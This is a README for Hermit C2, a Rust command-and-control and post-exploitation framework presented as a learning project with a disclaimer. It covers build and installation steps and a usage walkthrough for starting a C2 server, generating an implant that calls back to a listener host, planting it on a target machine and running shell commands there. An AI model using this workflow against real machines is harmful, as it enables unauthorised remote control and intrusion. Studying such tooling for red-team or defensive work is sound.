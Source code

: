 # Hermit C2

Command & Control, Post-Exploitation Framework written in Rust.  
I developed this project for learning Rust and how C2 framework works.

<br />

## WARNING

This project is only be used for educational and learning purposes and for experimentation in your own environment.  
It's prohibited to use on systems not under your control.

<br />

## Prerequisites

### C2 Server

```sh
# For Linux agent
rustup target add x86_64-unknown-linux-gnu
rustup target add i686-unknown-linux-gnu
# `libxcb` is used for screenshots in Linux target machine.
sudo apt install libxcb-xfixes0-dev

# For Windows agent
rustup target add x86_64-pc-windows-gnu
rustup target add i686-pc-windows-gnu
```

- **Linux**

Run the following command in the system which is going to run C2 server.

```sh
sudo apt install -y git build-essential mingw-w64
```

<br />

## USAGE

### C2 Server

```sh
hermit server
```

### C2 Client

```sh
# Connect to C2 server
hermit client -H my-c2-server.com -P 9999

# Print the usage.
Hermit $ help

# Add a new listener and start it
Hermit $ listener add -H my-c2-server.com -P 8000
Hermit $ listener start 0

# Generate a new implant
Hermit $ implant gen -l http://my-c2-server.com:8000/

# After genrating, transfer the implant to target machine and run it.
# When the target connected to our listener, we can control this machine.

# List agents
Hermit $ agents

# Switch to a specified agent mode
Hermit $ agent use 0

# e.g. Execute shell command for the target
Hermit [agent: agent_0123456] $ shell whoami
```

<br />

## Installation

```sh
git clone https://github.com/hideckies/hermit.git
cd hermit
cargo build --release
# After compiling, the `hermit` binary will be stored at `target/release/` folder.
```